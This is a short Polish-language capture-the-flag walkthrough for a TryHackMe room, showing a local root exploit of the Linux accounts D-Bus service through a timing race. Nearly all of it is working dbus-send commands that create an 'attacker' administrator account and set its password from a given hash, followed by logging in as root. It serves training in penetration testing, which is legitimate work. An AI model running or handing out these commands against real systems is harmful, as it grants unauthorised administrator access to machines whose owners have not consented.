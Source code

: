 # Info
(https://tryhackme.com/room/hipflask)(Task 19)

# Step 1
1. Mierzymy czas jaki zajmie wyslanie wiadomosci do demona kont:
```console
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```
          
[output]
real    0m0.015s
user    0m0.002s
sys     0m0.000s

# Step 2
2. Interesuje nas 'real' 
Teraz musimy pobrać ten sam komunikat dbus, wysłać go, a następnie odciąć mniej więcej w połowie wykonywania
```console
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```
        
W komendzie napisalismy 'sleep 0.005s' tyle dziala na exploitowanej maszynie, normalnie trzeba probowac rozne wartosci.
Komenda dodaje uzytkownika 'attacker' wiec wykonujemy komende i piszemy 'id attacker' jak nie ma to zmieniamy opoznienie i jeszcze raz.

# Step 3 
[Nadanie chasla]
Teraz musimy nadac haslo nowemu uzytkownikowi. Uzywamy dokladnie tej samej techniki tylko inny komunikat wysylamy do demona kont.
```console
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```   
 Komenda ustawi haslo na : Expl01ted

 # Step 4
 4. No i jak wszystko gra to sie logujemy i mamy roota :)
